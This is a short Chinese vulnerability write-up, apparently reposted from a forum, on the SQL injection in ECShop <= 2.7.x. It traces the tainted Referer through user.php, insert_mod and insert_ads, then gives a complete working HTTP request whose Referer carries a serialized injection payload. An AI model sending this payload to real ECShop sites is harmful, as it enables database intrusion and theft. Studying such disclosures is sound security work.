 # ECShop <= 2.7.x sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2898](https://www.zhihuifly.com/t/topic/2898)

# ECShop <= 2.7.x sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

ECShop（2.x、3.0.x、3.6.x）

## 三、复现过程

### 漏洞分析

先看user.php

![image](img/2a5872b83dde8e7dc6f7f53a4ab5283e.png)

$back_act变量来源于HTTP_REFERER，我们可控。

assign函数用于在模版变量里赋值

![image](img/6391bb0d2cab1ea567b85806cb237abd.png)

再看display函数

![image](img/80c0ed278ee12fa90e9248be8ed537ff.png)

读取user_passport.dwt模版文件内容，显示解析变量后的html内容，用_echash做分割，得到$k然后交给isnert_mod处理，由于_echash是默认的，不是随机生成的，所以$val内容可随意控制。

再看insert_mod函数

![image](img/47cf221f2b502c8358fbb76f57e83f53.png)

非常关键的一个地方，这里进行了动态调用

$val传入进来用|分割，参数传入进来时需要被序列化

再看include/lib_insert.php中的insert_ads函数

![image](img/915e11fc2600aeb0f9a343aeafeb782b.png)

可以看到这里直接就能注入了

### payload

```
GET /user.php?act=login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0 
```

![image](img/1d60deffbaad099969511257c113adc8.png)

## 参考链接

> https://cloud.tencent.com/developer/article/1333449